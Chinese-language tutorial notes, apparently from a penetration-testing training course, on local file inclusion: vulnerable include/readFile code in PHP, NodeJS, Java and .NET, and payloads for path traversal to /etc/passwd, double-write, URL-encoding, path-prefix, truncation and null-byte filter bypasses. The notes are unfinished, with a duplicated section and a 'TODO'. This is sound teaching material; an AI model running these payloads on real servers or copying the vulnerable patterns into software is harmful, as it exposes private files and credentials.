# 简介

许多现代后端语言（如 PHP、JavaScript、Java）都会通过 HTTP 参数来指定网页展示的内容，这既可以实现动态网页，又能减小脚本整体体积、简化代码。
在这种机制下，参数用于指定页面要加载的资源。如果这类功能没有安全编码，攻击者就可以恶意篡改这些参数，读取服务器上任意本地文件的内容，从而造成本地文件包含（LFI）漏洞。

在某些场景下，Web 应用程序会通过参数来请求访问指定系统上的文件，包括图片、静态文本等。参数是附加在 URL 中的查询参数字符串，可用于根据用户输入获取数据或执行操作。下图对 URL 的基本组成部分进行了分解。


例如，Google 搜索就会使用参数，通过 GET 请求将用户输入传递给搜索引擎，如链接：https://www.google.com/search?q=TryHackMe。

我们来讨论一下用户请求访问 Web 服务器上的文件的场景。首先，用户向 Web 服务器发送一个包含要显示的文件的 HTTP 请求。例如，如果用户想要在 Web 应用程序中访问并显示他们的简历，则请求可能如下所示： http : //webapp.thm/get.php ?file= userCV.pdf ，其中 file 是参数， userCV.pdf 是要访问的文件。


# 易受攻击代码示例

让我们来看一些存在文件包含漏洞的代码示例，以便了解此类漏洞是如何产生的。如前所述，文件包含漏洞可能出现在许多流行的 Web 服务器和开发框架中，例如 PHP 、 NodeJS 、 Java 、 .Net 等等。它们各自包含本地文件的方式略有不同，但它们都有一个共同点：从指定路径加载文件。

这类文件可以是动态页头，也可以是根据用户指定语言展示的不同内容。例如，页面会携带?language这个 GET 参数；当用户通过下拉菜单切换语言时，页面本身不变，但会带上不同的语言参数（如?language=es）。
这种情况下，切换语言会改变 Web 应用加载页面的目录（如/en/或/es/）。如果我们能控制加载路径，就可利用该漏洞读取其他文件，甚至进一步实现远程代码执行。

## PHP

在 PHP 中，我们加载页面时可能会使用 ` include()` 函数来加载本地文件或远程文件。如果传递给 include() 的**路径**来自用户可控的参数（例如 `GET `参数），且代码未对用户输入进行显式的过滤和净化，那么这段代码就会存在文件包含漏洞。以下代码片段展示了该场景的示例：

```php
if (isset($_GET['language'])) {
    include($_GET['language']);
}
```

我们看到 language 参数直接传递给了 include() 函数。因此，我们通过 language 参数传递的任何路径都会加载到页面上，包括后端服务器上的任何本地文件。这并非 include() 函数独有的问题，许多其他 PHP 函数如果能够控制传递给它们的路径，也会导致同样的漏洞。这些函数包括 `include_once()`、` require()` 、`require_once()` 、 file_get_contents() 等等。

> 注意： 在本模块中，我们将主要关注在 Linux 后端服务器上运行的 PHP Web 应用程序。但是，大多数技术和攻击也适用于大多数其他框架，因此我们的示例对于使用其他语言编写的 Web 应用程序也同样适用。

## NodeJS

与 PHP 类似，NodeJS Web 服务器也可以根据 HTTP 参数加载内容。以下是一个使用 GET 参数 language 来控制写入页面的数据的基本示例：

```js
if(req.query.language) {
    fs.readFile(path.join(__dirname, req.query.language), function (err, data) {
        res.write(data);
    });
}
```

正如我们所见，无论从 URL 传递什么参数， readfile 函数都会使用它们，然后将文件内容写入 HTTP 响应。另一个例子是 Express.js 框架中的 render() 函数。以下示例展示了如何使用 language 参数来确定从哪个目录拉取 about.html 页面：

```js
app.get("/about/:language", function(req, res) {
    res.render(`/${req.params.language}/about.html`);
});
```

与之前示例中在 URL 中使用问号 ( ? ) 指定 GET 参数不同，上述示例直接从 URL 路径（例如 /about/en 或 /about/es ）获取参数。由于该参数直接在 render() 函数中用于指定渲染的文件，因此我们可以更改 URL 以显示不同的文件。

## Java

同样的道理也适用于许多其他类型的 Web 服务器。以下示例展示了 Java Web 服务器的 Web 应用程序如何使用 include 函数，根据指定的参数包含本地文件：

```jsp
<c:if test="${not empty param.language}">
    <jsp:include file="<%= request.getParameter('language') %>" />
</c:if>
```

include 函数可接收文件路径或页面 URL 作为参数，随后将目标内容渲染至前端模板中 —— 这与我们此前在 NodeJS 中见到的类似用法一致。import 函数同样可用于渲染本地文件或 URL，例如以下示例：

```jsp
<c:import url= "<%= request.getParameter('language') %>"/>
```

## .NET

最后，我们以.NET Web 应用程序为例，说明文件包含漏洞可能如何产生。Response.WriteFile函数的工作原理与我们之前看到的所有示例极为相似：它接收文件路径作为输入参数，并将该文件的内容写入响应中。为了实现动态加载内容，这个文件路径可能会从 GET 参数中获取，示例如下：

```cs
@if (!string.IsNullOrEmpty(HttpContext.Request.Query['language'])) {
    <% Response.WriteFile("<% HttpContext.Request.Query['language'] %>"); %> 
}
```

此外，还可以使用 @Html.Partial() 函数将指定的文件渲染为前端模板的一部分，类似于我们之前看到的那样：

```cs
@Html.Partial(HttpContext.Request.Query['language'])
```

最后， include 函数可用于渲染本地文件或远程 URL，并且还可以执行指定的文件：

```cs
<!--#include file="<% HttpContext.Request.Query['language'] %>"-->
```

## 读文件和执行代码函数

从以上所有示例中我们可以看出，**文件包含漏洞**可能出现在任何 Web 服务器和任何开发框架中，因为它们都提供了加载动态内容和处理前端模板的功能。

需要牢记的最重要一点是：上述某些函数**仅读取**指定文件的内容，而另一些则还会**执行**指定文件。此外，其中一些允许指定远程 URL，而另一些仅能处理后端服务器上的本地文件。

下表展示了哪些函数可以执行文件，哪些仅读取文件内容：

| 函数                     | 读取内容 | 执行 | 远程 URL |
| ------------------------ | -------- | ---- | -------- |
| **PHP**            |          |      |          |
| include()/include_once() | ✅       | ✅   | ✅       |
| require()/require_once() | ✅       | ✅   | ❌       |
| file_get_contents()      | ✅       | ❌   | ✅       |
| fopen()/file()           | ✅       | ❌   | ❌       |
| **NodeJS**         |          |      |          |
| fs.readFile()            | ✅       | ❌   | ❌       |
| fs.sendFile()            | ✅       | ❌   | ❌       |
| res.render()             | ✅       | ✅   | ❌       |
| **Java**           |          |      |          |
| include                  | ✅       | ❌   | ❌       |
| import                   | ✅       | ✅   | ✅       |
| **.NET**           |          |      |          |
| @Html.Partial()          | ✅       | ❌   | ❌       |
| @Html.RemotePartial()    | ✅       | ❌   | ✅       |
| Response.WriteFile()     | ✅       | ❌   | ❌       |
| include                  | ✅       | ✅   | ✅       |

这是一个需要注意的重大区别，因为**执行文件**可能使我们能够调用函数并最终导致**代码执行**，而仅读取文件内容则只能让我们查看源代码，无法执行代码。
此外，如果在白盒测试或代码审计中能够查看源代码，了解这些行为有助于我们识别潜在的文件包含漏洞，尤其是当这些函数接收**用户可控输入**时。

在所有情况下，文件包含漏洞都是高危漏洞，最终可能导致整个后端服务器被攻陷。即便我们只能读取 Web 应用的源代码，也依然可能实现入侵——因为源码可能暴露出其他前文提到的漏洞，同时还可能包含数据库密钥、管理员凭证或其他敏感信息。

# 本地文件包含 (LFI)

现在我们已经了解了文件包含漏洞是什么以及它们是如何发生的，我们可以开始学习如何在不同的场景中利用这些漏洞来读取后端服务器上本地文件的内容。

本节末尾的练习向我们展示了一个 Web 应用程序的示例，该应用程序允许用户将其语言设置为英语或西班牙语：

如果我们点击选择一种语言（例如 Spanish ），我们会看到内容文本变为西班牙语：

我们还注意到，URL 中包含一个 language 参数，该参数现在已设置为我们选择的语言（ es.php ）。有几种方法可以更改内容以匹配我们指定的语言。它可能根据指定的参数从不同的数据库表中提取内容，或者加载完全不同的 Web 应用程序版本。但是，如前所述，使用模板引擎加载部分页面是最简单、最常用的方法。

因此，如果 Web 应用程序确实正在拉取一个文件并将其包含在页面中，我们可以更改拉取的文件，使其读取另一个本地文件的内容。大多数后端服务器上都有两个常见的可读文件：Linux 上的 ` /etc/passwd` 和 Windows 上的 `C:\Windows\boot.ini `。所以，让我们将参数从 ` es` 更改为 ` /etc/passwd` ：


正如我们所看到的，该页面确实存在漏洞，我们可以读取 passwd 文件的内容，并识别后端服务器上存在的用户。

## 路径遍历

在前面的例子中，我们通过指定文件的 **绝对路径** （例如 /etc/passwd ）来读取文件。如果将整个输入直接用于 include() 函数而不做任何修改，这种方法是有效的，如下例所示：

```php
include($_GET['language']);
```

### 文件夹前缀绕过

在这种情况下，如果我们尝试读取 /etc/passwd，include() 函数会直接获取该文件。但在很多场景中，Web 开发者可能会给 language 参数 拼接一段前缀或后缀。例如，**language 参数可能被用作文件名，并拼接在某个目录后面**，如下所示：

```php
include("./languages/" . $_GET['language']);
```

在这种情况下，如果我们尝试读取 `/etc/passwd` ，那么传递给 include() 路径将是 ( `./languages//etc/passwd` )，由于该文件不存在，我们将无法读取任何内容：

正如预期的那样，返回的详细错误信息显示了传递给 include() 函数的字符串，表明 languages 目录中没有 /etc/passwd 。

> Note： 我们仅出于教学目的在此 Web 应用程序中启用 PHP 错误，以便我们能够正确理解 Web 应用程序如何处理我们的输入。对于生产环境的 Web 应用程序，此类错误不应该显示。此外，我们所有的攻击都应该在不出现错误的情况下进行，因为它们不依赖于错误。

我们可以通过**相对路径**进行目录遍历，轻松绕过这种限制。具体做法是在文件名前加上 ` ../`，它表示上一级目录。
例如，如果 languages 目录的完整路径是 ` /var/www/html/languages/`，
那么使用 `../index.php`就会指向上一级目录下的 index.php 文件（即 `/var/www/html/index.php`）。

因此，我们可以使用这个技巧返回到根目录（即 / ），然后指定绝对文件路径（例如 ../../../../etc/passwd ），这样文件就应该存在了：

正如我们看到的，这一次无论当前处于哪个目录，我们都能成功读取文件。
这个技巧在在绝对路径里(没有前缀的情况下)也依然有效，所以我们可以默认使用这种方法，它在两种情况下都能生效。
此外，如果我们已经在根目录 /，再使用 ../ 仍然会停留在根目录。

所以，如果我们不确定 Web 应用程序所在的目录，我们可以多次添加 ../ ，路径也不会被破坏（即使添加一百次！）。

> [!NOTE]
>
> 保持简洁高效、不重复添加多余的 ../ 总是很有用的，尤其是在编写报告或漏洞利用脚本时。因此，尽量找到能生效的最少 ../ 数量并使用它。你也可以计算出当前目录距离根目录的层级，然后使用对应次数的 ../。例如，目录 /var/www/html/ 距离根目录有 3 层，因此可以使用 3 次 ../（即 ../../../）。

### 文件名前缀绕过

在之前的示例中，我们在目录后使用了 `language`参数，以便遍历路径读取 passwd 文件。有时，我们的输入可能会附加在其他字符串之后。例如，它可以与**前缀**一起使用以获取完整的文件名，如下例所示：

```php
include("lang_" . $_GET['language']);
```

在这种情况下，如果我们尝试使用 `../../../etc/passwd `遍历目录，最终得到的字符串将是 `lang_../../../etc/passwd` ，这是**无效**的：



不出所料，报错提示我们该文件不存在。所以，直接使用路径遍历行不通，我们可以在 payload 前面加一个 /，这样系统会把前面的前缀当作目录来处理 `/../../../etc/passwd` ，从而绕过文件名限制，实现目录遍历。

> [!NOTE]
>
> 注意： 此方法并非总是有效，例如，本例中名为 lang_/ 目录可能不存在，因此我们的相对路径可能不正确。

### 附加扩展名绕过

另一个非常常见的例子是，当 language 参数后附加一个扩展名时，如下所示：

```php
include($_GET['language'] . ".php");
```

这种做法十分常见，因为在该场景下，我们无需每次切换语言时都手动编写文件扩展名。这一设计同时也能提升安全性 —— 它可将我们的包含操作限制为仅加载 **PHP** 文件。在这种情况下，若我们试图读取 ` /etc/passwd`，最终被包含的文件会变成 ` /etc/passwd.php`，而该文件显然是不存在的。



#### 路径截断

在早期 PHP 版本中，字符串的最大长度被限定为 4096 个字符 —— 这一限制大概率源于 32 位系统的底层约束。若传入更长的字符串，超出部分会被直接截断，最大长度之后的所有字符都会被忽略。

此外，PHP 还曾有一项路径处理规则：会移除路径名末尾的斜杠（/）和单个点（.），因此若我们传入路径 (/etc/passwd/.)，其中的 /. 会被截断，最终 PHP 实际访问的路径是 (/etc/passwd)。

同时，PHP（乃至整个 Linux 系统）还会忽略路径中的多个连续斜杠（例如 ////etc/passwd 与 /etc/passwd 完全等效）；同理，路径中间的当前目录简写符（.）也会被忽略（例如 /etc/./passwd 与 /etc/passwd 等效）。

若我们将这两项 PHP 限制结合起来，就能构造出长度极长但最终解析为有效路径的字符串。当字符串长度达到 4096 字符的上限时，末尾追加的扩展名（.php）会被截断，最终得到的路径就不会带有这一额外追加的扩展名。最后需要重点说明的是，要让这一技巧生效，我们还必须将路径的开头设置为一个不存在的目录。

此类有效载荷的示例如下：

```url
?language=non_existing_directory/../../../etc/passwd/./././././ REPEATED ~2048 times]
```

当然，我们不必手动输入 ./ 2048 次（总共 4096 个字符），我们可以使用以下命令自动创建此字符串：

```shell
$ echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
non_existing_directory/../../../etc/passwd/./././<SNIP>././././
```

我们也可以增加 ../ 的数量，因为正如上一节所述，继续添加“../”仍然会将我们带到根目录。但是，如果使用这种方法，我们应该计算字符串的完整长度，以确保只有 .php 被截断，而不是字符串末尾我们请求的文件（ /etc/passwd ”）。这就是为什么使用第一种方法会更容易的原因。

#### 空字节

PHP 5.5 之前的版本存在 null byte injection 漏洞，这意味着在字符串末尾添加一个空字节（ %00 ）会导致字符串终止，并且忽略其后的所有内容。这是由于字符串在底层内存中的存储方式所致，内存中的字符串必须使用空字节来指示字符串的结尾，这与汇编语言、C 或 C++ 语言中的实现方式类似。

为了利用这个漏洞，我们可以在有效载荷末尾添加一个空字节（例如 /etc/passwd%00 ），这样传递给 include() 最终路径就变成了 /etc/passwd%00.php 。如此一来，即使 .php 被附加到字符串末尾，空字节之后的所有内容都会被截断，因此实际使用的路径将是 /etc/passwd ，从而绕过附加的扩展名。

> [!IMPORTANT]
>
> 练习： 尝试通过 LFI 读取任何 php 文件（例如 index.php），看看您是否会获得其源代码，或者文件是否会呈现为 HTML。

#### 使用过滤器读取源码

在后文中介绍

## 二阶攻击

本地文件包含攻击（LFI）可以有多种形式。另一种常见且略微高级的 LFI 攻击是 Second Order Attack 。这种攻击的发生是因为许多 Web 应用程序功能可能基于用户控制的参数，以不安全的方式从后端服务器拉取文件。

例如，一个 Web 应用程序可能允许我们通过类似 ( /profile/$username/avatar.png ) 的 URL 下载我们的头像。如果我们构造一个恶意本地文件包含 (LFI) 用户名（例如 ../../../etc/passwd ），那么就有可能将下载的文件更改为服务器上的另一个本地文件，从而获取该文件而不是我们的头像。

在这种情况下，我们会用恶意本地文件包含 (LFI) 载荷污染数据库条目中的用户名。然后，另一个 Web 应用程序功能会利用这个被污染的条目来执行我们的攻击（例如，根据用户名下载我们的头像）。这就是为什么这种攻击被称为 Second-Order 攻击。

开发者常常忽略这些漏洞，因为他们虽然可以防范用户直接输入（例如通过 ` ?page 参数），但却可能信任从数据库中获取的值，比如本例中的用户名。如果我们在注册过程中设法篡改了用户名，那么这种攻击就可能发生。

利用二阶攻击来利用 LFI 漏洞与我们在本节中讨论的类似。唯一的区别在于，我们需要找到一个函数，该函数根据我们间接控制的值来拉取文件，然后尝试控制该值来利用漏洞。

TODO

# 绕过过滤器

## 双写绕过

针对本地文件包含攻击 (LFI) 的最基本过滤器之一是查找替换过滤器，它会简单地删除 ( ../ ) 的子字符串，以避免路径遍历攻击。例如：

```php
$language = str_replace('../', '', $_GET['language']);
```

上述代码旨在防止路径遍历，因此 LFI 失效。如果我们尝试上一节中提到的 LFI 有效载荷，则会得到以下结果：

我们可以看到，所有 ../ 子字符串都被移除了，最终生成的路径为 ./languages/etc/passwd。但该过滤器的安全性极差 —— 原因在于它并**未递归移除 ../ 子字符串**：**它仅对输入字符串执行一次过滤操作，且不会将过滤规则应用于过滤后的输出字符串**。
例如，若我们使用 `....// `作为攻击载荷（payload），过滤器会移除其中的 ` ../`，输出结果则变为 ` ../`，这意味着我们仍可实施路径遍历攻击。下面我们尝试运用这一逻辑，再次尝试包含 /etc/passwd 文件：



正如我们所见，这次文件包含成功了，我们能够顺利读取 /etc/passwd。`....// `并不是我们唯一可用的绕过方式，我们还可以使用 ` ..././`、`....\/`以及其他多种递归型本地文件包含（LFI）攻击载荷。此外，在某些情况下，转义斜杠字符（例如 ` ....`）或添加多余的斜杠（例如 `....////`）也可以用来绕过路径遍历过滤器。

## 编码绕过

某些网页过滤器可能会阻止包含特定本地文件包含 (LFI) 相关字符（例如用于路径遍历的点号 `. `或斜杠 / 的输入。然而，部分此类过滤器可以通过对输入进行 URL 编码来绕过，

这样一来，输入内容将不再包含这些恶意字符，但一旦到达易受攻击的函数，仍然会被解码回路径遍历字符串。PHP 5.3.4 及更早版本的核心过滤器尤其容易受到这种绕过方法的影响，但即使在较新的版本中，我们也可能发现一些自定义过滤器可以通过 URL 编码来绕过。

如果目标 Web 应用不允许在我们的输入中使用 `. `和 /，我们可以将 `../`进行 URL 编码为 `%2e%2e%2f`，这可能绕过过滤器。为此，我们可以使用任意在线 URL 编码工具，或使用 Burp Suite Decoder 工具，如下所示：



> [!IMPORTANT]
>
> 为了使其正常工作，我们必须对所有字符（包括点）进行 URL 编码。某些 URL 编码器可能不会对点进行编码，因为它们被视为 URL 方案的一部分。

让我们尝试使用这段编码后的 LFI 有效载荷攻击我们之前存在漏洞的 Web 应用程序，该应用程序会过滤 `../ `字符串：



正如我们所见，我们也成功绕过了过滤器，并使用路径遍历读取了 /etc/passwd 。此外，我们还可以使用 Burp Decoder 对编码后的字符串进行二次编码，得到 double encoded 字符串，这或许也能绕过其他类型的过滤器。

> [!NOTE]
>
> 您可以参考命令 注入模块 来了解有关绕过各种黑名单字符的更多信息，因为相同的技术也可以用于 LFI。

## 指定路径绕过

部分 Web 应用还会通过正则表达式来确保被包含的文件处于指定路径下。例如，我们当前测试的这个 Web 应用可能仅接受 ./languages 目录下的路径，示例代码如下：

```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```

想要定位这类合规路径，我们可以审查现有表单提交的请求数据包，从中找出其正常业务功能所使用的路径格式；此外，还可以对同一路径下的 Web 目录进行模糊测试（Fuzz），逐一尝试不同目录直至匹配到符合规则的路径。
若要绕过该限制，我们可借助路径遍历技术，将攻击载荷以合规路径开头，随后通过 ../ 回退到根目录，进而读取指定文件，具体方法如下：



部分 Web 应用会将该过滤器与前文提及的某一种过滤器组合使用，因此我们可结合两种绕过技巧：先以合规路径作为攻击载荷的开头，再对载荷进行 URL 编码，或使用递归型攻击载荷。

## 路径截断

在早期 PHP 版本中，字符串的最大长度被限定为 4096 个字符 —— 这一限制大概率源于 32 位系统的底层约束。若传入更长的字符串，超出部分会被直接截断，最大长度之后的所有字符都会被忽略。

此外，PHP 还曾有一项路径处理规则：会移除路径名末尾的斜杠（/）和单个点（.），因此若我们传入路径 (/etc/passwd/.)，其中的 /. 会被截断，最终 PHP 实际访问的路径是 (/etc/passwd)。

同时，PHP（乃至整个 Linux 系统）还会忽略路径中的多个连续斜杠（例如 ////etc/passwd 与 /etc/passwd 完全等效）；同理，路径中间的当前目录简写符（.）也会被忽略（例如 /etc/./passwd 与 /etc/passwd 等效）。

若我们将这两项 PHP 限制结合起来，就能构造出长度极长但最终解析为有效路径的字符串。当字符串长度达到 4096 字符的上限时，末尾追加的扩展名（.php）会被截断，最终得到的路径就不会带有这一额外追加的扩展名。最后需要重点说明的是，要让这一技巧生效，我们还必须将路径的开头设置为一个不存在的目录。

此类有效载荷的示例如下：

```url
?language=non_existing_directory/../../../etc/passwd/./././././ REPEATED ~2048 times]
```

当然，我们不必手动输入 ./ 2048 次（总共 4096 个字符），我们可以使用以下命令自动创建此字符串：

```shell
$ echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
non_existing_directory/../../../etc/passwd/./././<SNIP>././././
```

我们也可以增加 ../ 的数量，因为正如上一节所述，继续添加“../”仍然会将我们带到根目录。但是，如果使用这种方法，我们应该计算字符串的完整长度，以确保只有 .php 被截断，而不是字符串末尾我们请求的文件（ /etc/passwd ”）。这就是为什么使用第一种方法会更容易的原因。

## 空字节

